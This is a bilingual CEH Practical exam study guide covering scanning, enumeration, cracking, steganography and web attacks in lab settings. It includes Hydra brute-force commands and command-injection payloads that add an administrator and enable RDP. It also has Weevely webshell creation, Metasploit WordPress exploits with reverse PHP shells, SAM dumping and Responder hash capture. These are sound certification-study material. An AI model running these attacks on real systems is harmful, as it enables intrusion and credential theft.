

## CEH-Prep-Guide
A collection of labs, tools, and study materials for CEH exam preparation.

**Exam Date:** 2024/04/20

## Network Scanning

### Netdiscover

用於尋找網域內的存活主機，範例如下：

```bash
netdiscover -i eth0
netdiscover -r 10.10.10.0/24
```

### Nmap

#### Nmap 常用指令

| 說明 | 指令 |
| --- | --- |
| 掃描存活主機 | `nmap -sP 10.10.10.*` |
| 用 ARP 掃瞄存活主機，只能掃描同網域 (ARP scan) | `nmap -PR -sn {IP}` |
| 服務跟版本偵查掃描 (Scripts + Version) | `nmap -sC -sV {IP}` |
| 作業系統偵查 (OS) | `nmap -O {IP}` |
| 全 port 掃描 | `nmap -p- {IP}` |
| 特定 port 掃描 | `nmap -p {port} {IP}` |
| 作業系統、服務版本、traceroute偵查 | `nmap -A {IP}` |
| NSE scripts 掃描 | `nmap --scripts {script_name} -p {port} {IP}` |
| Scripts + Version + Ports + OS 掃描 | `nmap -sC -sV -p- -A -v -T4 {IP}` |

> [!NOTE]  
> ARP (Address Resolution Protocol, 位址解析協定)：ARP是負責將IP位址轉換成Mac位址的一種通訊協定，當某一台電腦要傳送資料到某個IP位址時，會先傳送ARP封包詢問網路上哪台電腦的MAC Addres對應到這個IP位址，當目的端的電腦接收到這個ARP封包之後便會回應給來源電腦進行資料傳送。

#### **Nmap Cheat Sheet**

[Nmap Cheat Sheet 2023: All the Commands, Flags & Switches](https://www.stationx.net/nmap-cheat-sheet/)

#### Nmap Lab

[TryHackMe | Nmap](https://tryhackme.com/room/furthernmap)

[TryHackMe | Nmap Live Host Discovery](https://tryhackme.com/room/nmap01)

[HackTheBox | Network Enumeration with Nmap](https://academy.hackthebox.com/module/details/19)

#### Nmap GUI

[Zenmap - Official cross-platform Nmap Security Scanner GUI](https://nmap.org/zenmap)

## Enumerate

### FTP

#### 前置作業

```bash
nmap -sC -p 21 {IP}
```

#### Hydra

#### Hydra 常用指令

| 功能 | 參數 | 範例 |
| --- | --- | --- |
| 指定帳號 | `-l` | `hydra -l user -P passlist.txt ftp://192.168.0.1` |
| 指定密碼 | `-p` | `hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN` |
| 指定帳號清單 | `-L` | `hydra -L logins.txt -P pws.txt 192.168.0.1 ftp` |
| 指定密碼清單 | `-P` |  |
| 指定帳號密碼清單
（格式為 login:pass） | `-C` | `hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5`
 |
| 指定標的清單 | `-M` | `hydra -L logins.txt -P pws.txt -M targets.txt ssh` |

#### Hydra Lab

[TryHackMe | Hydra](https://tryhackme.com/room/hydra)

#### Hydra Brute force **Cheat Sheet**

```bash
## SSH
hydra -l username -P passlist.txt 192.168.0.100 ssh
 ## FTP
hydra -L userlist.txt -P passlist.txt ftp://192.168.0.100
## If the service isn't running on the default port, use -s
 hydra -L userlist.txt -P passlist.txt ftp://192.168.0.100 -s 221
## TELNET
hydra -l admin -P passlist.txt -o test.txt 192.168.0.7 telnet
## Login form
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"[http://192.168.20.90:3000/#/logi](http://192.168.20.90:3000/#/login)
```

#### FTP login

```bash
ftp {HOSTNAME or IP}
## 再輸入帳號密碼
```

### SNMP Enumeration

> [!NOTE]  
> SNMP(Simple Network Management Protocol, 簡易網路管理通訊協定):SNMP是由網際網路架構委員會 (IAB) 在 RFC1157 中定義的應用程式層通訊協定，用於交換網路裝置之間的管理資訊。它是傳輸控制通訊協定/網際網路通訊協定 (TCP⁄IP) 通訊協定組合的一部分。

每個 SNMP 代理程式都有一個描述受控裝置參數資訊資料庫。SNMP 管理器使用此資料庫，向代理程式請求特定資訊，並根據網路管理系統 (NMS) 的需求，進一步翻譯資訊。代理程式和管理器之間共用的資料庫稱為管理資訊庫 (MIB)。

管理資訊庫 (MIB) 是用於管理網路元素的資訊的集合。MIB 包含由名稱物件識別碼（物件 ID 或 OID）標識的受控物件。

</aside>

#### install snmp check

```bash
git clone https://gitlab.com/kalilinux/packages/snmpcheck.git
cd snmpcheck/
gem install snmp
chmod +x snmpcheck-1.9.rb

snmpcheck-1.9.rb {IP}
or
snmpcheck-check {IP}
```

#### Nmap script

```bash
nmap -sU -p 161 --script=snmp-processes {IP}
```

### Enumerate Lab

[TryHackMe | Cyber Security Training](https://tryhackme.com/room/enumerationpe)

### SMB Enumeration

#### Nmap script

```bash
## SMB Share details
nmap -p 445 --script smb-enum-shares {IP}
## Enumerating users
nmap -p 445 --script smb-enum-users {IP}
nmap -p 445 --script smb-enum-users --script-args smbusername={username},smbpassword={password} {IP}
```

#### SMB GUI

[Samba GUI Information](https://www.samba.org/samba/GUI/)

### Exploiting RDP Service

```bash
┌─[parrot@parrot]─[~]
└──╼ $msfconsole

Metasploit tip: Use the edit command to open the 
currently active module in your editor
Metasploit Documentation: https://docs.metasploit.com/

[msf](Jobs:0 Agents:0) >> use auxiliary/scanner/rdp/rdp_scanner 
[msf](Jobs:0 Agents:0) auxiliary(scanner/rdp/rdp_scanner) >> set RHOSTS 192.168.20.114
RHOSTS => 192.168.20.114
[msf](Jobs:0 Agents:0) auxiliary(scanner/rdp/rdp_scanner) >> exploit

[*] 192.168.20.114:3389   - Detected RDP on 192.168.20.114:3389   (name:DESKTOP-7LUEP1G) (domain:DESKTOP-7LUEP1G) (domain_fqdn:DESKTOP-7LUEP1G) (server_fqdn:DESKTOP-7LUEP1G) (os_version:10.0.19041) (Requires NLA: Yes)
[*] 192.168.20.114:3389   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[msf](Jobs:0 Agents:0) auxiliary(scanner/rdp/rdp_scanner) >> exit
┌─[parrot@parrot]─[~]
└──╼ $hydra -l root -P {wordlist.txt} rdp://192.168.20.114
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-02 19:30:35
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking rdp://192.168.20.114:3389/
[3389][rdp] host: 192.168.20.114   login: root   password: test1234
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-02 19:30:37
```

## File Inclusion, Path Traversal

### Gobuster

[Gobuster tutorial](https://hackertarget.com/gobuster-tutorial/)

#### Lab

[TryHackMe | File Inclusion, Path Traversal](https://tryhackme.com/room/filepathtraversal)

## **Traffic Sniffing**

### Wireshark

#### Official website

[Wireshark · Go Deep](https://www.wireshark.org/)

#### Tutorial

[How to Use Wireshark](https://youtube.com/playlist?list=PLW8bTPfXNGdA_TprronpuNh7Ei8imYppX&si=fqjI1S63bVGYB604)

[Detect DDOS attack with Wireshark](https://www.youtube.com/watch?v=zQr6G5W5Umo)

#### Cheat Sheet



#### **Finding Modbus Traffic**

- port: 502
- Modbus 常用filter:
    - `modbus.diagnostic_code`
    - `modbus.diagnostic_restart_communication_option`
    - `modbus.register.uint16`

#### **Finding DOS attack**

```bash
tcp.flags.syn == 1  , tcp.flags.syn == 1 and tcp.flags.ack == 0
```

#### **Finding Password**

```bash
http.request.method == POST
```

### Lab

[](https://academy.hackthebox.com/module/details/81)

## **Steganography**

### Tools

#### SNOW

[The SNOW Home Page](https://darkside.com.au/snow/)

```bash
## 加密:
SNOW.EXE -C -m "something you want to hide" -p "password" coverfile.txt output.txt
## 解密:
SNOW.EXE -C -p "password" output.txt
```

#### **SnowCracker**

[https://github.com/0xHasanM/SnowCracker](https://github.com/0xHasanM/SnowCracker)

#### Openstego

[OpenStego](https://www.openstego.com/)

#### Stegcracker

[stegcracker | Kali Linux Tools](https://www.kali.org/tools/stegcracker/)

## Covert_TCP

用於加密傳送資料

```bash
## Compile the Code  
cc -o covert_tcp covert_tcp.c
  
## Reciever Machine(192.168.29.53)  

sudo ./covert_tcp -dest 192.168.75.133 -source 192.168.75.131 -source_port 9999 -dest_port 8888 -server -file recieve.txt
## Sender Machine(192.168.29.123) 
## Create A Message file that need to be transferred Eg:secret.txt
sudo ./covert_tcp -dest 192.168.75.133 -source 192.168.75.131 -source_port 8888 -dest_port 9999 -file secret.txt
```

## **Cryptography**

### Tool

#### John the Ripper

[Password cracking with John the Ripper on Linux](https://linuxconfig.org/password-cracking-with-john-the-ripper-on-linux)

#### **HashMyFiles**

Windows工具，把檔案丟進去就會幫你算雜湊了。


#### Cryptoforge

也是windows工具，安裝後只要對檔案按右鍵就可以選擇”Encrypt”了


#### Online Tool

- [HASH IDENTIFICATION](https://www.onlinehashcrack.com/hash-identification.php)
- [CyberChef](https://gchq.github.io/CyberChef/)
- [Hash Cracker](https://crackstation.net/)

### Lab

[TryHackMe | Crack the hash](https://tryhackme.com/room/crackthehash)

#### 解題筆記：

[**tryhackme - Crack the hash**](https://www.notion.so/tryhackme-Crack-the-hash-1f77520a780f4c33933563b020c1b9ad?pvs=21)

[Cracking Passwords with Hashcat Course | HTB Academy](https://academy.hackthebox.com/course/preview/cracking-passwords-with-hashcat)

## **Web & Android Hacking**

### SQLMap

#### Tip


```bash
## Using Burp request file
sqlmap -r req.txt -p blood_group --dbs
sqlmap -r <request_file> -p <vulnerable_parameter> --dbs

## Using GET based Method
sqlmap -u https://testsite.com/page.php?id=7 --cookie="屬性名稱=值" -D blood --tables
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables

## Using POST based Method
sqlmap -r req.txt -p blood_group -D blood --tables
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
```

#### Lab

[TryHackMe | SQLMAP](https://tryhackme.com/room/sqlmap)

[TryHackMe | SQL Injection Lab](https://tryhackme.com/room/sqlilab)

[SQLMap Essentials Course | HTB Academy](https://academy.hackthebox.com/course/preview/sqlmap-essentials)

#### Other resource

[Database Penetration Testing using Sqlmap (Part 1) - Hacking Articles](https://www.hackingarticles.in/database-penetration-testing-using-sqlmap-part-1/)

### WpScan

#### 常用指令

```jsx
## all mode scan
wpscan --url http://cmnatics.playground/ --enumerate u,p,t,vp

## Direct crack if we have user/password details
wpscan --url http://192.168.1.100/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt

## password crack
wpscan --url wpscan.thm --passwords /usr/share/wordlists/rockyou.txt --usernames Phreakazoid
```

#### 列舉使用者的方法

[6 ways to enumerate WordPress Users - GoSecure](https://gosecure.ai/blog/2021/03/16/6-ways-to-enumerate-wordpress-users/)

#### Lab

[TryHackMe | Cyber Security Training](https://tryhackme.com/room/webenumerationv2#)

[TryHackMe | Blog](https://tryhackme.com/r/room/blog)

### Nikto

#### 基本指令

```bash
## 基本掃描
nikto -h 10.10.10.11:8080
## 掃描多個port
nikto -h 10.10.10.11 -p 80,8080
## 儲存檔案
nikto -h 10.10.10.11:8080 -o report.html
```

#### 呼叫Plugins

```bash
nikto -h 10.10.10.11 -Plugin apacheuser
```

| Plugin Name | Description |
| --- | --- |
| apacheusers | 列舉Apache HTTP 驗證用戶 |
| cgi | 尋找我們可以利用的 CGI 腳本 |
| robots | 分析 robots.txt 文件 |
| dir_traversal | 嘗試使用目錄遍歷攻擊（即LFI），例如 Linux 上的 /etc/passwd (http://ip_address/application.php?view=../../../../. ./ ../../etc/passwd) |

#### **Verbosing 顯示設定**

```bash
nikto -h 10.10.10.11 -Display 1
```

| Argument | Description | Reasons for Use |
| --- | --- | --- |
| 1 | 顯示 Web 伺服器給予的任何重新導向 | Web servers may want to relocate us to a specific file or directory, so we will need to adjust our scan accordingly for this. |
| 2 | 顯示收到的所有 cookie  | Applications often use cookies as a means of storing data. For example, web servers use sessions, where e-commerce sites may store products in your basket as these cookies. Credentials can also be stored in cookies. |
| E | 輸出任何錯誤 | This will be useful for debugging if your scan is not returning the results that you expect! |

#### **Vulnerability Searching**

```bash
nikto -h 10.10.10.11 -Tuning 1
```

| Tuning Option | Category Name | Description |
| --- | --- | --- |
| 0 | File Upload | Search for anything on the web server that may permit us to upload a file. This could be used to upload a reverse shell for an application to execute. |
| 2 | Misconfigurations / Default Files | Search for common files that are sensitive (and shouldn't be accessible such as configuration files) on the web server. |
| 3 | Information Disclosure | Gather information about the web server or application (i.e. verison numbers, HTTP headers, or any information that may be useful to leverage in our attack later) |
| 4 | Injection | Search for possible locations in which we can perform some kind of injection attack such as XSS or HTML |
| 8 | Command Execution | Search for anything that permits us to execute OS commands (such as to spawn a shell) |
| 9 | SQL Injection | Look for applications that have URL parameters that are vulnerable to SQL Injection    |

### ADB

常用的 port: 5555

```bash
apt-get update
sudo apt-get install adb -y
adb devices -l

## Connection Establish Steps
adb connect 192.168.0.4:5555
adb devices -l
adb shell  

## Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```

[1. Hack Android Devices | CEH Practical Guide](https://ceh-practical.cavementech.com/module-17.-hacking-mobile-platforms/1.-hack-android-devices)

## Tool Used

- In Parrot Box
    - netdiscover
    - NMAP
    - Hydra
    - John the ripper
    - wpscan
    - sqlmap
    - ADB
    - Covert TCP
- In Windows Box
    - Wireshark
    - Hashcalc
    - [Veracrypt](http://wiki.kmu.edu.tw/index.php/%E7%A1%AC%E7%A2%9F%E9%9A%A8%E8%BA%AB%E7%A2%9F%E5%8A%A0%E5%AF%86-VeraCrypt%E8%BB%9F%E9%AB%94%E6%95%99%E5%AD%B8)
    - BCTextEncoder
    - [Cryptool](https://www.cryptool.org/en/)
    - Snow
    - OpenStego

## Questions

1. How many Machines are active? **netdiscover**
2. Which Machine has FTP Server open? **NMAP**
3. Find 2 secret files using FTP? **brute force FTP usernames**
4. Find out phone number of Web application user? **sqlmap**
5. Brute Force Wordpress website User’s Password? **wpscan**
6. Decode .hex file? [**Cryptool**](https://www.cryptool.org/en/)
7. Which Machine started DOS attack? DDOS attack happend on which IP? Find out http Credentials from PCAP file? **Wireshark**
8. Decode the given text using given secret? **BCTextEncoder**
9. Calculate SHA-1 hash of a text? **Hashcalc**
10. Decrypt the hidden Volume and find secret file? [**Veracrypt**](http://wiki.kmu.edu.tw/index.php/%E7%A1%AC%E7%A2%9F%E9%9A%A8%E8%BA%AB%E7%A2%9F%E5%8A%A0%E5%AF%86-VeraCrypt%E8%BB%9F%E9%AB%94%E6%95%99%E5%AD%B8)
11. Crack the given hash? [**hashs.com**](https://hashes.com/en/decrypt/hash)
12. Find secret hidden in the Image/File? **OpenStego/Snow**
13. Find a Secret file in Android? **ADB**
14. Send data to another machine(firewall blocked)? **Covert TCP**
15. A suspicious executable file "malicious-file". Your need to find what is the executable's Entry point (Address).
16. scan the extensive network and find the FQDN of the domain controller?
17. crack WiFi password from the given captured file
18. rooting the machine

## 複習講義

### 掃描與列舉

```jsx
## 找存活主機
sudo nmap -sn 10.10.10.*
## 取得主機大部分資訊
sudo nmap 10.10.10.10 -Pn -T4 -sV -sC -min-rate-1000 -p-
## 找SNMP主機
sudo nmap -sU -p161 --open 10.10.10.*
## 獲取主機完整SNMP資料, 記得把使用者帳號記下來之後用於破解(winUser.txt)
snmp-check 10.10.10.16
## 透過nbt列舉所有windows電腦
nbtscan 10.10.10.1-254
## 透過enum4linux列舉windows電腦的詳細資訊，應該會失敗，XP以後禁止匿名列舉，所以要先破解一組使用者
enum4linux 10.10.10.16
## Hydra 破解使用者資訊
hydra -L winUser.txt -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
## 再次列舉，可以看到目標主機的分享資料夾
enum4linux -u martin -p apple -a 10.10.10.16
## Windows電腦下的列舉方式
net use \\10.10.10.16 apple /u:martin
new view \\10.10.10.16
```

### 檢測與攻擊網頁程式

#### 參數竄改

透過url的id參數修改取得其他用戶資料

#### MSSQL injection


透過瀏覽器的開發者工具取得cookie，並使用sqlmap進行攻擊：

```bash
sqlmap -u {url} --cookie={cookie}
sqlmap -u "http://10.10.10.19/moviescope/viewprofile.aspx?id=1" --cookie="mscope=1jQwT3="
```

若可以注入即可以獲取table，指令請見 ‣ 

- 隱碼攻擊（blind injection）：方法與上述一樣，只是尋找的注入欄位不是在url，可能是網頁上的某個input欄位。

#### 命令注入攻擊（common injection）：

注入點也是要找網頁的input欄位，以下附上通常找到後可以嘗試的指令（for Windows）：

```bash
|net user cehp /add #可以建立名稱為cehp的使用者
|net users #看目前有哪些使用者
|net localgroup Adminstrators cehp /add #將cehp加入到管理者權限群組
|net localgroup Adminstrators #看目前該群組有哪些使用者
#下面這句可以啟動該主機的遠端桌面服務
|reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server"  /v fDenyTSConnections /t REG_DWORD /d 0 /f
#確認port 3389是否有在監聽
|netstat -an|findstr :3389
```

#### Webshell 上傳攻擊：

- Weevely：

```bash
## 製作backdoor.php(cehp為後門的連線密碼)
weevely generate cehp backdoor.php
## 攻擊端連線上去
weevely http://10.10.10.10:8080/uplaods/backdoor.php cehp
```

- webshell：[https://github.com/tennc/webshell/tree/master/fuzzdb-webshell](https://github.com/tennc/webshell/tree/master/fuzzdb-webshell)
- 利用WPScan破解WordPress使用者密碼
`whatweb`：掃描網站的平台，伺服器等等，範例為Windows+Apache 2.4.39+Wordpress 4.9.18
剩下的指令可以參考‣
- 利用Metasploit攻擊WordPress網站

```bash
sudo service postgresql start ## 啟動資料庫
msfconsole ## 啟動Metasploit
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
set RHOST 10.10.10.16
set RPORT 8080
set TARGETURI /ceh
set USERNAME admin
set PASSWORD qwerty@123
set PAYLOAD php/reverse_php
exploit
```

#### 安裝WordPress網站外掛並用Metasploit攻擊

1. 下載外掛：https://downloads.wordpress.org/plugin/photo-gallery.1.2.5.zip
2. 進入管理者頁面（https://10.10.10.16/CEH/wp-login.php）並登入，安裝外掛


1. 申請[Wpscan API Token](https://wpscan.com/api)並使用Wpscan重新掃描該網站，可以看到外掛存在漏洞
2. 使用Metasploit

```bash
msfconsole
msf6 > use /exploit/unix/webapp/wp_photo_gallery_unrestricted_file_upload
set RHOST 10.10.10.16
set RPORT 8080
set TARGETURI /ceh
set USERNAME cehuser1
set PASSWORD green
set PAYLOAD php/reverse_php
exploit
```

### 破密攻擊

#### 使用ophcrack破解windows使用者密碼

1. 將Windows的SAM匯出：

```bash
mkdir pwdump
reg save hklm\sam pwdump\sam
reg save hklm\system pwdump\system
```

1. 將檔案移動至parrot，使用Python做資料庫傾印

```bash
secretsdump.py LOCAL -system pwdump/system -sam pwdump/sam -outputfile pwd/10.10.10.10
```

1. 將傾印的sam檔案帶回Windows，使用ophcrack.exe起動，點擊PWDump file將檔案匯入，最後點選crack即可破密

#### 使用John the Ripper破解密碼

```bash
john hash.txt --format=raw-md5
```

#### 使用Responder破解Windows的網路登入密碼

1. 在Parrot啟用responder

```bash
sudo responder -l eth0
```

1. 切換至Windows電腦，在執行視窗（Win+R）輸入`\\notexist`，會跳出登入畫面，隨便輸入即可
2. 回到Parrot會看到取得該電腦的NTLMv2（儲存於`/usr/share/responder/logs`），接著使用JTR破解

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt pd.txt
```

#### 使用Hydra破解 FTP 網路服務密碼

詳情可見‣ 

#### 使用Aircrack-ng 破解無線網路密碼

- 破解WEP密碼：WEP缺乏嚴謹的安全設計，實務上只要有足夠多的封包就可以破解密碼

```jsx
aircrack-ng WERcrack-01.cap
```

- 破解WPA/WPA2密碼：使用預先共享金鑰驗證，為一組8-63個字元的密碼，實務上使用字典檔破解

```jsx
aircrack-ng WPA2crack-01.cap -w /usr/share/wordlists/nmap.lst
```

#### 使用CrypTool加密解密

Windows上面的加解密工具，圖形化介面，可以進行加解密

[CrypTool Portal](https://www.cryptool.org/en/ct1/)

#### 建立與掛載VeraCrypt 加密磁碟機

[硬碟隨身碟加密-VeraCrypt軟體教學 - KMU Wiki](http://wiki.kmu.edu.tw/index.php/硬碟隨身碟加密-VeraCrypt軟體教學)

#### HashMyFiles 驗證檔案完整性

Windows工具，計算檔案hash值

[HashMyFiles: Calculate MD5/SHA1/CRC32 hash of files](https://www.nirsoft.net/utils/hash_my_files.html)

#### 使用OpenStego在圖檔隱匿訊息

[官網教學清楚](https://www.openstego.com/)

#### 使用SNOW在文字檔藏匿訊息

[官網](https://darkside.com.au/snow/)

### 分析網路流量

#### 分析HTTP網路流量

- 在Wireshark篩選器輸入`urlencoded-form`可以看見未加密的傳送資料

#### 分析njRAT後門程式網路流量

njRAT說明如下：

[Day16:今天來聊一下如何使用njRAT RAT Trojan控制Windows電腦攻防 - iT 邦幫忙::一起幫忙解決難題，拯救 IT 人的一天](https://ithelp.ithome.com.tw/articles/10275380)

教學案例是利用njRAT開啟後門以及監看遠端電腦桌面，所以透過WireShark縮定port5552後找到相關封包，點選右鍵並選擇Follow→TCP Stream尋找JFIF（帶表示jpg格式，因為njRAT的監看遠端桌面是用jpg去傳的）

#### 分析covert TCP流量

重點就是covert TCP會把資訊藏在TCP封包裡面的IP標頭的ID欄位，只要找到相對應的port並用篩選器篩出來，接下來就是找IP裡面的ID欄位的0x0012跟0x0013位置看是什麼值即可（每個封包只傳送一個字元）

#### 分析Modbus網路流量

### 額外補充

[CEHP_v12_補充_20230926.pdf](CEH%20Practical%20Exam%20Notes%20118bf64d11f780c196a0e295a82da6d6/CEHP_v12_%25E8%25A3%259C%25E5%2585%2585_20230926.pdf)

## Ref.

### YouTube

[Passed CEH Practical Exam|Tool|Techniques|Questions|Mistakes](https://youtu.be/z2F5gauWuZE?si=Mxj9e4OuzgVGlxfp)

- [07:37](https://www.youtube.com/watch?v=z2F5gauWuZE&t=457s) - How to Book Exam
- [11:16](https://www.youtube.com/watch?v=z2F5gauWuZE&t=676s) - Exam Questions

### GitHub

我覺得這個不錯，考試會用到的指令都有

[https://github.com/infovault-Ytube/CEH-Practical-Notes](https://github.com/infovault-Ytube/CEH-Practical-Notes)

這個也都是各單元的指令

[https://github.com/cmuppin/CEH](https://github.com/cmuppin/CEH)

練習官方lab的指令筆記，如果想不到有甚麼工具可以用可以查一下這個

[https://github.com/hunterxxx/CEH-v12-Practical](https://github.com/hunterxxx/CEH-v12-Practical)

有考試內容、題目、工具、額外連結，有點雜，考前看就好

[https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master](https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master)

### GitBook

[About the Author | Book of Guru HariHaraun](https://book.thegurusec.com/)

[Certified Ethical Hacker - Practical Complete  Guide | CEH Practical Guide](https://ceh-practical.cavementech.com/)

### Page

這篇有紀錄他考試當下的作法，值得看

[CEH — Practical Exam Review](https://anontuttuvenus.medium.com/ceh-practical-exam-review-185ea4cef82a)

別人的考過心得分享，有一些教學資源但我這篇都有提到了

[How I passed CEH (Practical) in my first attempt by Guru HariHaraun](https://infosecwriteups.com/how-i-passed-ceh-practical-in-my-first-attempt-647926a3a0ac)

同上，但他有給工具的下載連結（BCTextEncoder, Veracrypt, Open Stego）

[Certified Ethical Hacker Practical Exam Guide](https://medium.com/techiepedia/certified-ethical-hacker-practical-exam-guide-dce1f4f216c9)

中文的考試準備心得，考前最後可以看

[EC-Council CEHP考試準備心得 - HackMD](https://hackmd.io/@9dCJrgb6QHGd8dRfgHO0zg/r14xNn1po)

中文考試準備心得

[EC-Council CEH Practical / Master 準備心得-讓理論與實作相輔相成的學習](https://medium.com/blacksecurity/ceh-practical-master-3e80cac180a2)
